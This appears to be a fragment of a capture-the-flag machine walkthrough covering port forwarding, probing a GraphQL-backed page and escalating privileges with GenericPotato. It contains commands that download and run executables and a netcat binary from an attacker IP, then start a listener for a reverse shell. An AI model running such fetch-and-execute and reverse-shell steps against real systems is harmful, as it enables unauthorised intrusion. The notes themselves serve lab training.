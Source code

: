 on the box, download the file and run trustme.exe
````cmd
powershell
wget http://10.10.14.200:8080/trustme.exe -o trustme.exe
./trustme.exe
````

we now need to forward the port
````bash
portfwd add -l 8003 -p 8080 -r 127.0.0.1
````

Start by visting the page
![[Pasted image 20210510102134.png]]

lets scan the port

````bash
nmap -p 8003 127.0.0.1

PORT     STATE SERVICE
8081/tcp open  blackice-icecap
````

What about the source code. 

````javascript
<script>
    fetch('/api/graphql', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
            'Accept': 'application/json',
        },
        body: JSON.stringify({ query: "{ allPlants { id, location, status } }" })
    }).then(r => r.json()).then(r => r.data.allPlants.forEach(d => document.getElementById('opstatus').innerHTML += `<tr><th scope="row">${d.id}</th><td>${d.location}</td><td>${d.status}</td></tr>`))
</script>
````

it use graphql api, google it and try and find a exploit

https://labs.bishopfox.com/tech-blog/design-considerations-for-secure-graphql-apis


https://github.com/micahvandeusen/GenericPotato
compile the project, you will need.
ntapidognet.xml, GenericPotato.exe
[windows netcat](https://github.com/int0x33/nc.exe)

transfer all the files to the windows box
````
wget http://10.10.14.200:8080/nc64.exe -o nc64.exe
wget http://10.10.14.200:8080/NtApiDotNet.xml -o NtApiDotNet.xml
wget http://10.10.14.200:8080/GenericPotato.exe -o GenericPotato.exe
````

Start a listener
````bash
nc -nvlp 8004
````

